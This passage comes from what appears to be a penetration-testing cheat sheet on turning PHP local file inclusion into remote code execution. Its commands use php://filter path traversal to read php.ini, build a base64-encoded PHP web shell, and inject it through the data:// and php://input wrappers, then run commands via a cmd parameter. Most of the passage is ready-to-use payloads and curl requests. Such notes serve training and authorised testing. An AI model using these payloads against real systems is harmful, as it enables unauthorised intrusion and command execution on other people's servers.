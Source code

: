 This will reply with a encode string. Decode it to get the file:
```console
zero@pio$ echo '[string]' | base64 -d
```

---

# Remote Code Execution

## PHP Wrappers

### Data 

The data wrapper can be used to include external data, including PHP code. It's need to have `grep allow_url_include` enable. Let's check it.

First, find the PHP config file (`/etc/php/X.Y/apache2/php.ini`{: .filepath} for Apache, `/etc/php/X.Y/fpm/php.ini`{: .filepath} for Nginx).
```console
zero@pio$ curl "http://<ip/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
zero@pio$ echo "[string]" | base64 -d | grep allow_url_include

allow_url_include = On
```

First, create a basic PHP reverse shell:
```console
zero@pio$ echo '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```

Now, we can inject it in the url. Encode the base64 string and pass it:
```
http://<ip>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```
We need to end with `&cmd=<COMMAND>`.

> We can use curl also.
{: .prompt-tip}

### Input

Similar to *data*, but we send the code with POST. Also depends on `allow_url_include`.

```console
zero@pio$ curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<ip>/index.php?language=php://input&cmd=id" | grep uid
```

> To pass our command as a GET request, we need the vulnerable function to also accept GET request (i.e. use `$_REQUEST`). 
{: .prompt-info}
